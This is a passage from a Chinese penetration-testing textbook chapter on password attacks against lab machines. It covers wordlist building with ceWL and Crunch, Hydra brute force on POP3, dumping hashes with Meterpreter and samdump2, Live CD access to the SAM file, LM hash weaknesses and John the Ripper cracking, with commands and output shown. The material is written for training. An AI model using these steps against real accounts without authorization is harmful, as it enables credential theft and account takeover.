

## 第九章 密码攻击

密码通常是渗透测试中最容易突破的部分。一家拥有强大安全计划的客户可以修复缺失的 Windows 补丁和过时的软件，但用户自身是无法通过补丁修复的。我们将在讨论第十一章中的社交工程时，深入探讨如何攻击用户。

在第十一章中，我们将探讨社交工程，但如果我们能够正确猜测或计算出用户的密码，我们可能完全不需要涉及用户进行攻击。在本章中，我们将探讨如何使用工具自动化运行目标上的服务，并发送用户名和密码。此外，我们还将学习如何破解我们在第八章中获得的密码哈希值。

## 密码管理

公司开始意识到基于密码的身份验证固有的风险；暴力破解攻击和有针对性的猜测都对弱密码构成严重威胁。许多组织使用生物识别技术（如指纹或视网膜扫描）或双重身份验证来减轻这些风险。甚至像 Gmail 和 Dropbox 这样的在线服务也提供双重身份验证，用户除了输入密码，还需要提供第二个值，如电子令牌上的数字。如果没有双重身份验证，那么使用强密码对于账户安全至关重要，因为在攻击者和敏感数据之间，可能仅有一串简单的字符。强密码应该长，包含来自多个复杂度类别的字符，并且不应基于词典中的单词。

本书中使用的密码故意设计得非常糟糕，但不幸的是，许多用户在密码管理方面的行为也好不到哪里去。组织可以强制用户创建强密码，但随着密码变得越来越复杂，记忆它们变得更加困难。用户可能会把自己记不住的密码放在电脑文件、智能手机里，甚至是便签纸上，因为这样更容易管理。当然，密码如果以明文形式放在周围被发现，就会破坏使用强密码的安全性。

另一个密码管理的重大错误是将相同的密码用于多个网站。在最坏的情况下，CEO 为一个受损的论坛使用的弱密码，可能恰好也是他或她访问财务文件的公司密码。密码重用是进行密码攻击时需要考虑的一个因素；你可能会发现相同的密码在多个系统和网站上都能使用。

密码管理对于 IT 工作人员来说是一个棘手的问题，并且除非完全废除基于密码的身份验证，转而采用其他身份验证模型，否则它可能会继续成为攻击者的一个有效途径。

## 在线密码攻击

就像我们使用自动扫描来寻找漏洞一样，我们可以使用脚本自动尝试登录服务并找到有效的凭证。我们将使用专门设计用于自动化在线密码攻击的工具，或者通过猜测密码直到服务器响应成功登录。这些工具使用一种叫做*暴力破解*的技术。使用暴力破解的工具会尝试每一种可能的用户名和密码组合，只要有足够的时间，它们*会*找到有效的凭证。

暴力破解的麻烦在于，随着密码强度的增加，破解密码所需的时间从几小时延长到几年，甚至超出你的自然寿命。通过将一些对正确密码的有根据的猜测输入到自动化登录工具中，我们可能更容易找到有效的凭证。字典词汇容易记住，因此尽管有安全警告，许多用户还是会把它们作为密码的一部分。稍微有点安全意识的用户可能会在密码末尾加上一些数字，甚至是一个感叹号。

### 字典文件

在你可以使用工具来猜测密码之前，你需要一个凭证列表进行尝试。如果你不知道要破解的用户账户的名称，或者你只是想破解尽可能多的账户，你可以为密码猜测工具提供一个用户名列表，供其逐一尝试。

#### 用户列表

在创建用户列表时，首先尝试确定客户的用户名方案。例如，如果我们试图突破员工的电子邮件账户，弄清楚电子邮件地址的模式是非常重要的。它们是*firstname.lastname*格式，只有名字，还是其他的格式？

你可以在常见的名字列表中寻找合适的用户名候选者。当然，如果你能够找到目标实际员工的名字，猜测成功的可能性会更高。如果一个公司使用名字首字母加姓氏作为用户名方案，且该公司有一位名叫 John Smith 的员工，那么*jsmith*很可能是一个有效的用户名。示例 9-1 展示了一个非常简短的示例用户列表。在实际的渗透测试中，你可能需要一个更大的用户列表。

示例 9-1. 用户列表示例

```
root@kali:~# **cat userlist.txt**
georgia
john
mom
james
```

一旦你创建了列表，将示例用户名保存到 Kali Linux 中的一个文本文件中，如示例 9-1 所示。你将使用这个列表在使用 Hydra 猜测用户名和密码中执行在线密码攻击。

#### 密码列表

除了可能的用户列表，我们还需要一个密码列表，如示例 9-2 所示。

示例 9-2. 密码列表示例

```
root@kali:~# **cat passwordfile.txt**
password
Password
password1
Password1
Password123
password123
```

像我们的用户名列表一样，这个密码列表只是一个非常简短的示例（希望它不会在现实中找到太多账户的正确密码）。在实际的工作中，你应该使用更长的字典列表。

互联网上有许多优秀的密码列表。查找字典列表的好地方包括 *[`packetstormsecurity.com/Crackers/wordlists/`](http://packetstormsecurity.com/Crackers/wordlists/)* 和 *[`www.openwall.com/wordlists/`](http://www.openwall.com/wordlists/)*。一些密码列表也内置在 Kali Linux 中。例如，*/usr/share/wordlists* 目录包含一个名为 *rockyou.txt.gz* 的文件。这是一个压缩的字典列表。如果你使用 gunzip Linux 工具解压这个文件，你将得到大约 140 MB 的可能密码，这应该能给你一个不错的开端。此外，Kali 中的一些密码破解工具自带示例字典列表。例如，John the Ripper 工具（我们将在离线密码攻击中使用）包含一个位于 */usr/share/john/password.lst* 的字典列表。

为了获得更好的结果，可以通过添加额外的单词来定制你的字典列表，以针对特定的目标。你可以根据你在网上收集到的关于员工的信息进行合理猜测。关于配偶、孩子、宠物和爱好的信息可能会帮助你走在正确的道路上。例如，如果你的目标的 CEO 是社交媒体上的泰勒·斯威夫特大粉丝，可以考虑添加与她的专辑、音乐或男朋友相关的关键词。如果你的目标密码是 *TaylorSwift13!*，你应该能在运行整个预编译字典列表或进行暴力破解尝试之前，通过密码猜测确认它。另一个需要记住的事情是你的目标使用的语言。你的许多渗透测试目标可能是全球性的。

除了根据你在侦察过程中收集到的信息进行合理猜测外，像 ceWL 这样的自定义字典生成工具将会搜索公司网站，收集可以添加到字典列表中的单词。示例 9-3 展示了你如何使用 ceWL 根据 *[www.bulbsecurity.com](http://www.bulbsecurity.com)* 网站的内容创建字典列表。

示例 9-3. 使用 ceWL 构建自定义字典列表

```
root@kali:~# **cewl --help**
cewl 5.0 Robin Wood (robin@digininja.org) (www.digininja.org)

Usage: cewl [OPTION] ... URL
--*snip*--
--depth x, -d x: depth to spider to, default 2 ❶
--min_word_length, -m: minimum word length, default 3 ❷
--offsite, -o: let the spider visit other sites
--write, -w file: write the output to the file ❸
--ua, -u user-agent: useragent to send
--*snip*--
URL: The site to spider.
root@kali:~# **cewl -w bulbwords.txt -d 1 -m 5 www.bulbsecurity.com** ❹
```

命令 `ceWL --help` 列出了 ceWL 的使用说明。使用 `-d`（深度）选项 ❶ 来指定 ceWL 应该在目标网站上跟踪多少个链接。如果你认为目标有最低密码长度要求，你可以使用 `-m` 选项 ❷ 来指定最小单词长度。一旦做出选择，使用 `-w` 选项 ❸ 将 ceWL 的结果输出到文件。例如，要在深度为 `1` 的情况下搜索 *[www.bulbsecurity.com](http://www.bulbsecurity.com)*，并设置最小单词长度为 `5` 个字符，将发现的单词输出到文件 *bulbwords.txt*，你可以使用 ❹ 处显示的命令。生成的文件将包含网站上符合你要求的所有单词。

另一种创建字典的方法是生成一个包含给定字符集所有可能组合的列表，或者生成一个包含指定字符数的所有可能字符组合的列表。Kali 中的工具 Crunch 可以为你生成这些字符集。当然，可能性越多，所需的磁盘空间就越大。使用 Crunch 的一个非常简单的示例见 示例 9-4。

示例 9-4. 使用 Crunch 进行密钥空间暴力破解

```
root@kali:~# **crunch 7 7 AB**
Crunch will now generate the following amount of data: 1024 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 128
AAAAAAA
AAAAAAB
--*snip*--
```

这个示例生成了仅由字符 *A* 和 *B* 组成的所有可能七字符组合的列表。一个更有用但更大的示例是输入 `crunch 7 8`，这将生成一个包含长度在七到八个字符之间的所有可能字符组合的列表，使用默认的 Crunch 字符集，即小写字母。这种技术被称为 *密钥空间暴力破解*。虽然在你的一生中尝试每一种可能的密码组合是不现实的，但可以尝试特定的子集；例如，如果你知道客户的密码策略要求密码至少七个字符长，那么尝试所有七字符和八字符密码可能会导致破解成功——即使是那些没有根据字典单词设置密码的稀有用户。

### 注意

开发一个完善的字典或字典集是一个不断发展的过程。在本章的练习中，你可以使用我们在 示例 9-2 中创建的简短样本字典，但随着你在这一领域积累经验，你将会开发出更复杂、更适用于客户任务的字典。

现在让我们看看如何使用我们的字典来猜测目标服务上的密码。

### 使用 Hydra 猜测用户名和密码

如果你有一组凭证，想要尝试在需要登录的运行中的服务上使用，你可以手动一个一个输入，或者使用工具来自动化这个过程。Hydra 是一个在线密码猜测工具，可以用来测试运行服务的用户名和密码。（遵循将安全工具命名为赫拉克勒斯十二项劳绩中受害者的传统，Hydra 被命名为希腊神话中有多个头的蛇怪。）示例 9-5 展示了如何使用 Hydra 进行在线密码猜测的示例。

示例 9-5。使用 Hydra 猜测 POP3 用户名和密码

```
root@kali:~# **hydra -L userlist.txt -P passwordfile.txt 192.168.20.10 pop3**
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2015-01-12 15:29:26
[DATA] 16 tasks, 1 server, 24 login tries (l:4/p:6), ~1 try per task
[DATA] attacking service pop3 on port 110
[110][pop3] host: 192.168.20.10   login: georgia   password: password❶
[STATUS] attack finished for 192.168.20.10 (waiting for children to finish)
1 of 1 target successfuly completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-01-12 15:29:48
```

示例 9-5 展示了如何通过运行用户名和密码文件来使用 Hydra 猜测 POP3 凭证，针对我们的 Windows XP 目标进行查找。此命令使用 `-L` 标志指定用户名文件，使用 `-P` 指定密码列表文件，并指定 `pop3` 协议。Hydra 发现 *georgia* 用户的密码是 `password` ❶。（*georgia* 使用如此不安全的密码，真该羞愧！）

有时你会知道某个特定的用户名在服务器上存在，你只需要一个有效的密码来配合它。例如，我们在第六章中使用了 `SMTP VRFY` 命令来查找 Windows XP 目标上的 SLMail 服务器上的有效用户名。正如你在示例 9-6 中看到的，我们可以使用*`-`*`l` 标志代替 *`-`*`L` 来指定一个特定的用户名。知道这一点后，让我们来寻找 `pop3` 服务器上 *georgia* 用户的有效密码。

示例 9-6。使用特定用户名与 Hydra

```
root@kali:~# **hydra -l georgia -P passwordfile.txt 192.168.20.10 pop3**
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only
[DATA] 16 tasks, 1 server, 24 login tries (l:4/p:6), ~1 try per task
[DATA] attacking service pop3 on port 110
[110][pop3] host: 192.168.20.10   login: georgia   password: password❶
[STATUS] attack finished for 192.168.20.10 (waiting for children to finish)
1 of 1 target successfuly completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-01-07 20:22:23
```

Hydra 找到了 *georgia* 的密码是 *password* ❶。

现在，在示例 9-7 中，我们将使用我们的凭证来读取*georgia*的邮件。

示例 9-7。使用 Netcat 通过猜测的凭证登录

```
root@kali:~# **nc 192.168.20.10 pop3**
+OK POP3 server xpvictim.com ready <00037.23305859@xpvictim.com>
**USER georgia**
+OK georgia welcome here
**PASS password**
+OK mailbox for georgia has 0 messages (0 octets)
```

指定 `pop3` 协议，并在提示时提供用户名和密码。（不幸的是，这个收件箱里没有情书。）Hydra 可以对多种服务执行在线密码猜测。（有关完整列表，请查看其手册页面。）例如，在这里我们使用通过 Hydra 找到的凭证来使用 Netcat 登录。

请记住，大多数服务都可以配置为在一定次数的登录失败后锁定账户。没有什么比突然锁定多个用户账户更能引起客户 IT 团队注意的了。快速连续的登录尝试也可能会引起防火墙和入侵防御系统的警觉，这样你的 IP 地址会在边界被屏蔽。减慢并随机化扫描速度有助于避免这种情况，但这当然是有权衡的：扫描变慢意味着需要更长的时间才能得到结果。

避免让登录尝试被察觉的一种方法是，在尝试登录之前先猜测密码，正如你将在下一节中学到的那样。

## 离线密码攻击

破解密码的另一种方法（而不被发现）是获取密码哈希并尝试将它们逆向恢复为明文密码。这说起来容易做起来难，因为哈希是设计为单向哈希函数的产物：给定一个输入，你可以通过哈希函数计算出输出，但给定输出，你无法可靠地确定输入。因此，如果哈希值被泄露，应该无法计算出明文密码。然而，我们可以猜测密码，将其用单向哈希函数进行哈希，然后将结果与已知的哈希进行比较。如果两个哈希值相同，那么我们就找到了正确的密码。

### 注意

正如你在 LM 与 NTLM 哈希算法一节中所学到的，并非所有密码哈希系统都经得起时间的考验。有些已经被破解，且不再被认为是安全的。在这些情况下，无论选择什么强度的密码，攻击者只要能够访问到哈希值，就能在合理的时间内恢复出明文密码。

当然，如果你能直接获取明文密码，那就更好了，这样就能省去逆向破解加密的麻烦，但你遇到的密码通常会以某种方式被哈希处理。在这一节中，我们将重点讨论如何查找和破解密码哈希。如果你偶然发现一个存储明文密码的程序配置文件、数据库或其他文件，那就更好了。

但在我们尝试破解密码哈希之前，必须先找到它们。我们都希望存储我们密码的服务能够做好保护工作，但这并非理所当然。只需要一个可利用的漏洞或一个成为社交工程攻击受害者的用户（这在第十一章中有讨论），就能导致整个系统崩溃。你会在像 Pastebin 这样的网站上发现大量的密码哈希，这些哈希是过去安全漏洞的遗留物。

在 第八章中，我们获得了 Linux 和 Windows XP 目标机上的一些密码哈希。通过 *windows/smb/ms08_067_netapi* Metasploit 模块，我们获得了 Windows XP 系统上的带有系统权限的 Meterpreter 会话，可以使用 `hashdump` Meterpreter 命令打印出已哈希的 Windows 密码，如 示例 9-8 所示。

示例 9-8. 在 Meterpreter 中导出密码哈希

```
meterpreter > **hashdump**
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
georgia:1003:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:df40c521ef762bb7b9767e30ff112a3c:938ce7d211ea733373bcfc3e6fbb3641:::
secret:1004:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:bc48640a0fcb55c6ba1c9955080a52a8:::
```

将哈希导出的输出保存到名为 *xphashes.txt* 的文件中，稍后我们将使用这个文件在 John the Ripper 中进行破解。

在 第八章中，我们通过 Zervit 0.4 中的本地文件包含漏洞下载了 Windows XP 系统的 SAM 和 SYSTEM 注册表文件备份。我们还通过相同的漏洞下载了 FileZilla FTP 服务器的配置文件，该文件包含了使用 MD5 算法哈希的密码。在 Linux 目标机上，Vsftpd 的笑脸后门让我们获得了 root 权限，因此我们可以访问文件 */etc/shadow*，该文件存储着 Linux 密码哈希值。我们将用户 *georgia* 的密码保存到了 *linuxpasswords.txt* 文件中。

### 从 Windows SAM 文件中恢复密码哈希

SAM 文件存储的是 Windows 的哈希密码。虽然我们可以通过 Meterpreter 从 Windows XP 系统中导出密码哈希（如前所示），但有时你只能获取到 SAM 文件。

我们未能通过 Zervit 0.4 漏洞访问到主 SAM 文件，但我们成功地从 *C:\Windows\repair* 目录中下载了一个备份副本，利用的是本地文件包含漏洞。但是当我们尝试读取 SAM 文件时（如 示例 9-9 所示），我们没有看到任何密码哈希。

示例 9-9. 查看 SAM 文件

```
root@bt:~# **cat sam**
regf     P P5gfhbinDDDDnk,DuDDDDD DDDD DDDDDDDDDxDDDDSAMXDDDskx x D DpDμ\μ?
?   μ μ
                                  DDDDnk LDDDD DBDDDD Dx DDDDDSAMDDDDskxx7d
DHXμ4μ?          DDDDvk D CPDDD D  μDxDμD0Dμ    DμDD 4μ1   ?         DDDDD
DDDDlf   SAMDDDDnk DuDDDDD   H#DDDD Px DDDDDomainsDDDDvkDDDDD8lf DDomaDDDDnk
\DDJDDD DDDDDD0x DDDD( AccountDDDDvk DD
--snip--
```

SAM 文件经过了混淆，因为 Windows Syskey 工具使用 128 位的 Rivest Cipher 4 (RC4) 算法加密 SAM 文件中的密码哈希值，以提供额外的安全性。即使攻击者或渗透测试人员能够访问 SAM 文件，仍需要做一些工作才能恢复密码哈希。具体来说，我们需要一个密钥来反向解密这些加密的哈希值。

Syskey 工具的加密密钥叫做 *bootkey*，并存储在 Windows SYSTEM 文件中。你可以在 *C:\Windows\repair* 目录下找到 SYSTEM 文件的副本，这个目录也是我们找到备份 SAM 文件的地方。我们可以使用 Kali 中的 Bkhive 工具从 SYSTEM 文件中提取 Syskey 工具的 bootkey，这样我们就能解密哈希值，具体操作请参考 示例 9-10。

示例 9-10. 使用 Bkhive 提取 bootkey

```
root@kali:~# **bkhive system xpkey.txt**
bkhive 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it

Root Key : $$$PROTO.HIV
Default ControlSet: 001
Bootkey: 015777ab072930b22020b999557f42d5
```

在这里，我们使用 Bkhive 通过将 SYSTEM 文件*system*（即我们通过 Zervit 0.4 目录遍历从修复目录下载的文件）作为第一个参数并将文件提取到*xpkey.txt*来提取启动密钥。一旦获得启动密钥，我们就可以使用 Samdump2 从 SAM 文件中检索密码哈希，如示例 9-11 所示。将 SAM 文件的位置和 Bkhive 提取的启动密钥传递给 Samdump2，Samdump2 将使用启动密钥解密哈希。

示例 9-11. 使用 Samdump2 恢复 Windows 哈希

```
root@kali:~# **samdump2 sam xpkey.txt**
samdump2 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it

Root Key : SAM
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:df40c521ef762bb7b9767e30ff112a3c:938ce7d211ea733373bcfc3e6fbb3641:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:bc48640a0fcb55c6ba1c9955080a52a8:::
```

现在将这些哈希与在示例 9-8 的活动 Meterpreter 会话中使用`hashdump`命令找到的哈希进行比较。（具有足够权限的 Meterpreter 会话可以实时转储密码哈希，无需我们下载 SAM 和 SYSTEM 文件。）注意，在示例 9-11 中，我们的哈希列表没有用户*georgia*或*secret*的条目。发生了什么？

在使用 Zervit 目录遍历时，我们无法访问位于*C:\Windows\System32\config*的主 SAM 文件，而是从*C:\Windows\repair\sam*下载了一个备份。这些用户一定是在 SAM 文件备份创建之后才创建的。不过，我们确实拥有*Administrator*用户的密码哈希。尽管这个哈希不是完整的或完全最新的，我们仍然可以利用从这个备份的 SAM 文件破解得到的哈希登录系统。

现在让我们看一下另一种访问密码哈希的方式。

### 使用物理访问转储密码哈希

在某些任务中，你实际上可以获得用户机器的物理访问权限，所谓的物理攻击也在范围内。虽然初看起来物理访问似乎并不是很有用，但你可能能够通过使用 Linux Live CD 重启系统来绕过安全控制，从而访问密码哈希。（我们将使用 Kali ISO 镜像，尽管其他 Linux Live CD 如 Helix 或 Ubuntu 也可以工作。我们在第一章中使用了一个预构建的 Kali 虚拟机。要获取 Kali 的独立 ISO 镜像，请访问*[`www.kali.org`](http://www.kali.org)*。）当你使用 Live CD 启动一台机器时，可以挂载内部硬盘并访问所有文件，包括 SAM 和 SYSTEM 文件。（当 Windows 启动时，会有一些安全控制阻止用户访问 SAM 文件并转储密码哈希，但当文件系统在 Linux 中加载时，这些控制并不会生效。）

我们的 Windows 7 虚拟机，尽管在外部安全方面表现坚固，但在过去几章中有些被忽视。让我们通过物理攻击来获取其哈希值。首先，我们将虚拟机的光驱指向 Kali ISO 文件，如图 9-1 所示（适用于 VMware Fusion）。在 VMware Player 中，选择你的 Windows 7 虚拟机，右键点击并选择**设置**，然后选择**CD/DVD (SATA)**，并在页面右侧的“使用 ISO 映像”字段中指向 ISO 文件。

图 9-1. 设置我们的 Windows 7 虚拟机从 Kali ISO 文件启动

默认情况下，VMware 启动虚拟机的速度非常快，以至于很难在 BIOS 设置中更改启动顺序，不能从 CD/DVD 驱动器启动，而是从硬盘启动。为了解决这个问题，我们将在 VMware 配置文件(*.vmx*)中添加一行，以在 BIOS 屏幕上延迟启动几秒钟。

1.  在你的主机上，浏览到你保存虚拟机的文件夹。然后，在 Windows 7 目标机的文件夹中，找到*.vmx*配置文件，并在文本编辑器中打开它。配置文件应该与示例 9-12")类似。

    示例 9-12. VMware 配置文件(.vmx)

    ```
    .encoding = "UTF-8"
    config.version = "8"
    virtualHW.version = "9"
    vcpu.hotadd = "TRUE"
    scsi0.present = "TRUE"
    scsi0.virtualDev = "lsilogic"
    --*snip*--
    ```

1.  在文件中任何地方添加行**`bios.bootdelay = 3000`**。这将告诉虚拟机在启动时延迟 3000 毫秒，或者三秒钟，足够的时间让我们更改启动选项。

1.  保存*.vmx*文件，然后重启 Windows 7 目标机。一旦可以访问 BIOS，选择从 CD 驱动器启动。虚拟机应当启动 Kali ISO。尽管我们已经进入 Kali 系统，我们仍然可以挂载 Windows 硬盘并访问文件，从而绕过 Windows 操作系统的安全特性。

示例 9-13 展示了如何挂载文件系统并提取密码哈希值。

示例 9-13. 使用 Linux Live CD 提取 Windows 哈希值

```
root@kali:# ❶**mkdir -p /mnt/sda1**
root@kali:# ❷**mount /dev/sda1 /mnt/sda1**
root@kali:# ❸**cd /mnt/sda1/Windows/System32/config/**
root@kali:/mnt/sda1/Windows/System32/config  **bkhive SYSTEM out**
root@kali:/mnt/sda1/Windows/System32/config  **samdump2 SAM out**
samdump2 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it

Root Key : CMI-CreateHive{899121E8-11D8-41B6-ACEB-301713D5ED8C}
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Georgia Weidman:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b75B6c:::
```

我们在❶处使用`mkdir`命令创建一个目录，用于挂载 Windows 文件系统。接下来，我们使用`mount`❷将 Windows 文件系统（*/dev/sda1*）挂载到新创建的目录（*/mnt/sda1*）中，这意味着目标机的 C 盘实际上位于*/mnt/sda1*。Windows 中的 SAM 和 SYSTEM 文件位于*C:\Windows\System32\config*目录中，因此我们使用`cd`命令切换到*/mnt/sda1/Windows/System32/config*目录来访问这些文件❸，此时我们可以使用 Samdump2 和 Bkhive 工具对 SAM 和 SYSTEM 文件进行操作，而无需先保存这些文件并将其移动到我们的 Kali 系统。

我们再次成功获取了密码哈希。现在我们有了 Windows XP 目标、Windows 7 目标、Linux 目标以及 Windows XP 目标上的 FileZilla FTP 服务器的哈希值。

### 注

在第十三章中，我们将探讨一些使用密码哈希进行身份验证的技巧，而无需访问明文密码，但通常，要使用这些哈希，我们需要逆向密码哈希算法并获取明文密码。这一过程的难度取决于所使用的密码哈希算法以及密码的强度。

### LM 与 NTLM 哈希算法

示例 9-14 对比了两个密码哈希条目。第一个属于 Windows XP 上的*Administrator*账户，这是我们通过 Meterpreter 中的`hashdump`发现的，第二个是 Windows 7 上 Georgia Weidman 的账户，这是我们在上一节中通过物理访问发现的。

示例 9-14. 使用 Linux Live CD 导出 Windows 哈希值

```
Administrator❶:500❷:e52cac67419a9a224a3b108f3fa6cb6d❸:8846f7eaee8fb117ad06bdd830b7586c❹
Georgia Weidman❶:1000❷:aad3b435b51404eeaad3b435b51404ee❸:8846f7eaee8fb117ad06bdd830b7586c❹
```

哈希中的第一个字段是用户名❶；第二个是用户 ID ❷；第三个是 LAN Manager (LM) 格式的密码哈希 ❸；第四个是 NT LAN Manager (NTLM) 哈希 ❹。LM 哈希是直到 Windows NT 之前在 Microsoft Windows 上用于哈希密码的主要方式，但它是一种密码学上不安全的方法，使得无论密码的长度和复杂性如何，都能发现 LM 哈希的正确明文密码。Microsoft 引入了 NTLM 哈希来替代 LM 哈希，但在 Windows XP 中，密码默认以 LM 和 NTLM 格式存储。（Windows 7 仅使用更安全的 NTLM 哈希。）

在示例 9-14 中的哈希值中，由于两个密码都是字符串*password*，每个账户的 NTLM 哈希条目是相同的，但 LM 哈希字段不同。第一个条目的值是`e52cac67419a9a224a3b108f3fa6cb6d`，而 Windows 7 条目的值是`aad3b435b51404eeaad3b435b51404ee`，这在 LM 哈希中表示为空。包含 LM 哈希条目将使破解哈希变得更加简单。事实上，任何 LM 哈希的密码都可以在几分钟到几个小时内进行暴力破解。相对而言，我们破解 NTLM 哈希的能力将取决于我们猜测的能力以及密码的长度和复杂性。如果哈希函数在密码学上是安全的，破解每个可能的密码可能需要数年、数十年，甚至超过你的一生。

### LM 密码哈希的问题

当你在渗透测试中看到 LM 哈希时，你可以确定从密码哈希中恢复出明文密码是可能的。然而，单向哈希函数是不可逆的。复杂的数学方法用于开发算法，使得无法根据密码哈希发现被哈希的原始明文密码。但是我们*可以*通过密码明文猜测并运行加密哈希函数，然后将结果与我们尝试破解的哈希值进行比较；如果它们相同，我们就找到了正确的密码。

以下问题导致了 LM 哈希的不安全性：

+   密码会被截断为 14 个字符。

+   密码会被转换为全大写字母。

+   少于 14 个字符的密码会用零填充至 14 个字符。

+   14 个字符的密码会被分成两个七个字符的密码单独进行哈希处理。

为什么这些特征如此重要？假设我们从一个复杂且强大的密码开始，比如这样：

```
T3LF23!+?sRty$J
```

这个密码由四个类别的 15 个字符组成，包括小写字母、大写字母、数字和符号，并且它不是基于字典中的单词。然而，在 LM 哈希算法中，密码会被截断为 14 个字符，如下所示：

```
T3LF23!+?sRty$
```

然后小写字母会被转换为大写字母：

```
T3LF23!+?SRTY$
```

接下来，密码被分成两个七个字符的部分。然后这两个部分作为密钥，使用数据加密标准（DES）加密算法加密静态字符串`KGS!@#$%`：

```
T3LF23!     +?SRTY$
```

加密得到的八个字符的密文会被连接在一起，形成 LM 哈希。

要破解一个 LM 哈希，我们只需要找到七个字符，全部为大写字母，可能还会包含一些数字和符号。现代计算硬件可以在几分钟到几小时内尝试每一种可能的 1 到 7 个字符的组合，使用`KGS!@#$%`进行加密，并将得到的哈希值与给定值进行比较。

### John the Ripper

John the Ripper 是破解密码的流行工具之一。John the Ripper 的默认模式是暴力破解。由于 LM 哈希中的可能明文密码集合非常有限，暴力破解在合理时间内是破解任何 LM 哈希的可行方法，即使是在我们的 Kali 虚拟机上，它的 CPU 性能和内存有限。

例如，如果我们将本章前面收集到的 Windows XP 哈希保存到名为*xphashes.txt*的文件中，然后将它们提供给 John the Ripper 进行处理，我们会发现 John the Ripper 可以运行所有可能的密码组合，并得出正确的答案，如示例 9-15 所示。

示例 9-15. 使用 John the Ripper 破解 LM 哈希

```
root@kali: **john xphashes.txt**
Warning: detected hash type "lm", but the string is also recognized as "nt"
Use the "--format=nt" option to force loading these as that type instead
Loaded 10 password hashes with no different salts (LM DES [128/128 BS SSE2])
                 (SUPPORT_388945a0)
PASSWOR          (secret:1)
                 (Guest)
PASSWOR          (georgia:1)
PASSWOR          (Administrator:1)
D                (georgia:2)
D                (Administrator:2)
D123             (secret:2)
```

John the Ripper 破解七字符密码哈希值。在示例 9-15 中，我们看到*PASSWOR*是用户*secret*密码的前半部分。同样，*georgia*和*Administrator*的密码前半部分也是*PASSWOR*。*secret*密码的后半部分是*D123*，而*georgia*和*Administrator*的密码后半部分是*D*。因此，LM 哈希密码的完整明文分别是*georgia*和*Administrator*的*PASSWORD*，以及*secret*的*PASSWORD123*。LM 哈希无法告诉我们密码的正确大小写，如果你尝试以*Administrator*或*georgia*的身份用密码*PASSWORD*登录，或者以*secret*的身份用*PASSWORD123*登录 Windows XP 机器，你将遇到登录错误，因为 LM 哈希没有考虑密码中字母的正确大小写。

要找出密码的正确大小写，我们需要查看 NTLM 哈希的第四个字段。在示例 9-15 中的示例中，John the Ripper 提到 NTLM 哈希也存在，你可以使用标志`--format=nt`强制 John the Ripper 使用这些哈希（由于 Windows 7 没有 LM 哈希，因此我们必须使用字典列表来破解 Windows 7 密码，因为暴力破解 NTLM 哈希可能会花费太长时间）。

破解 Windows NTLM 哈希远没有破解 LM 哈希那么容易。虽然一个仅使用小写字母且没有其他复杂性的五字符 NTLM 密码可以像破解 LM 哈希一样快速通过暴力破解，但一个具有大量复杂性的 30 字符 NTLM 密码可能需要许多年才能破解。尝试每个可能的字符组合，不论长度，进行哈希计算并与某个值进行比较，可能会一直持续下去，直到我们偶然找到正确的值（结果发现用户已经更改了密码）。

与其尝试暴力破解密码，不如使用包含已知密码、常见密码、字典词、加上数字和符号的字典词组合等内容的字典列表。（我们将在破解 Linux 密码中看到使用字典列表与 John the Ripper 的例子）。

一个真实世界的例子

传统的密码哈希算法曾在我的一次渗透测试中起到了决定性作用。域控制器是 Windows Server 2008，具有强大的安全性。企业中的工作站也相当安全，最近已升级为完全补丁的 Windows 7 系统。然而，黑暗中的一线希望是：一台缺少多个安全补丁的 Windows 2000 计算机。我利用 Metasploit 很快获得了该机器的系统权限。

问题在于，虽然从表面上看，渗透测试已经成功，但攻破机器并没有让我获得多少信息。该系统没有敏感文件，而且它是该特定网络中的唯一一台机器，且与新的、更新的 Windows 域相隔离。它具备所有域控制器的特征，除了没有客户端。环境中的其他所有机器都是新 Windows 2008 域控制器域的成员。虽然从技术上讲，我现在是域管理员，但在渗透测试中，我并没有比发现 Windows 2000 机器之前更进一步。

由于这是域控制器，域用户的密码哈希是本地存储的。Windows 2000 像 Windows XP 一样，存储了密码的 LM 哈希。客户端的旧域管理员密码很强，约有 14 个字符，包含大写字母、小写字母、数字和符号，并且不基于字典单词。幸运的是，由于它是 LM 哈希的，我能够在几分钟内找回密码。

你猜新域的域管理员密码是什么？没错，跟旧域的域管理员密码一样。虽然 Windows 2000 机器已经有六个月没有使用，但它依然在运行，并且使用了不安全的哈希算法。而且，客户没有定期更换密码。这两件事加起来破坏了原本强大的安全性。我仅凭在被攻破的 Windows 2000 系统上找到的域管理员密码，就能够访问环境中的所有系统。

### 破解 Linux 密码

